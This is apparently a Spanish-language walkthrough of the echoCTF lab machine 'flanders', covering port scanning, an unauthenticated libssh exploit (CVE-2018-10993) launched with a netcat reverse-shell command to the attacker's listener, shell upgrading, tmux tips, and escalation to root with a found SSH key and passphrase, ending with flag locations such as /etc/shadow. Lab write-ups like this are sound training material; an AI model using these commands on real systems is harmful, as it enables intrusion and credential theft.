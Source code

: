 # flanders-echoctf
Resolucion de la maquina


## NMAP


```
sudo nmap -sS -p- -n --min-rate 500  10.0.100.34
sudo nmap -sSVC  -p6022  10.0.100.34
```

Encontramos un puerto raro nos dice que es un servicio que no sabemos que es deje el nc conectado


![image](https://github.com/gecr07/flanders-echoctf/assets/63270579/e5ace1bc-53ff-4640-b9cf-0cca398bb39b)

## RCE

Buscamos exploits para esa version de libssh no tenemos usuario osea seria no autenticado. Y encontre  cve-2018-10993.py  que si jalo


```
nc -lvnp 443

python3 cve-2018-10993.py 10.0.100.34 -p 6022 -v -c 'nc -e /bin/sh 10.10.5.82 443'

```

### Fully TTY

```
python -c "import pty;pty.spawn('/bin/bash')"

```

### Alternativa a netstat

Si no se tiene netstat se puede usar la siguiente alternativa

```
ss -ant

```

##### TMUX 

Volver un panel a una ventana compelta


```
CTL + b + !

# Copiar / Pegar con tmux.

0 - [Cntrl + b] + "PgUp" o "["   Permite entrar el modo copia y usar el scrolling (q para salir).
1 - Ir a la linea a partir de la cual se quier copiar.
2 - [Cntrl + Barra espaciadora]
3 - Mover con los cursores para seleccionar lo que se quiere copiar. 
4 - [Alt + w]   Copia el texto seleccionado en el paso anterior.
5 - [Cntrl + b] + "]"   Pega el contenido copiado.


```

![image](https://github.com/gecr07/flanders-echoctf/assets/63270579/0eb5ec63-f20e-48b1-b7e1-054a90e6e093)

Encontramos un puerto 22 en escucha:

```
ps -eafww
ssh -i .ssh/mykey root@127.0.0.1

las pass phrase

OkilyDokily

```

Vemos que se esta ejecutando ese ssh como root lo tomamos!

> Now we see that port 22 is open but only localhost can connect on further search with "ps -eafww" I found that ssh is running as root and listening on this port I used the key found earlier to connect to the localhost via ssh using ssh -i .ssh/mykey root@127.0.0.1 but the key is encrypted with some passphrase by looking at the machine's description the catch phrase is "Okily Dokily" it didn't work in the first try but when I removed the space it worked and we are root now LOCATION OF FLAGS: /root/ /etc/passwd /etc/shadow strings /proc/*/environ | grep ETSCTF








